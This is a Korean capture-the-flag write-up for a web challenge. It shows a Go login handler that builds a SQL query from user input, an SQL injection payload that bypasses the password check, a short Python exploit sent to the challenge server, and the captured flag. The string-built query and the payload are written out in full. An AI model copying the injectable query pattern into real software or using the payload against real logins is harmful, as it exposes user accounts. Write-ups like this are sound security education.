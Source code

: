 
# write-up 

## setup.sql
```sql
CREATE DATABASE uwu;
use uwu;

CREATE TABLE IF NOT EXISTS users ( username text, password text );
INSERT INTO users ( username, password ) VALUES ( "root", "IamAvEryC0olRootUsr");
INSERT INTO users ( username, password ) VALUES ( "skat", "fakeflg{fake_flag}");
INSERT INTO users ( username, password ) VALUES ( "coded", "ilovegolang42");

CREATE USER 'readonly_user'@'%' IDENTIFIED BY 'password';
GRANT SELECT ON uwu.users TO 'readonly_user'@'%';
FLUSH PRIVILEGES;

```
`skat` 계정의 패스워드를 탈취하면 플래그를 획득할 수 있다.

## main.go 
```go
qstring := fmt.Sprintf("SELECT * FROM users WHERE username = \"%s\" AND password = \"%s\"", input.Username, input.Password)
query, err := DB.Query(qstring)
		if err != nil {
			w.WriteHeader(http.StatusInternalServerError)
			fmt.Println(err)
			return
		}
		defer query.Close()
```
위 쿼리문에서 SQL Injection 취약점이 존재하여 `{"username": "skat", "password": "\"=\""}` 입력을 통해 쿼리를 조작하여 `skat` 패스워드를 알아낼 수 있다. 

## Exploit Code
```python
import requests

url = "https://whats-my-password-web.chal.irisc.tf"
r = requests.post(f"{url}/api/login", json={"username": "skat", "password": "\"=\""})

print(r.text)
```

### `irisctf{my_p422W0RD_1S_SQl1}`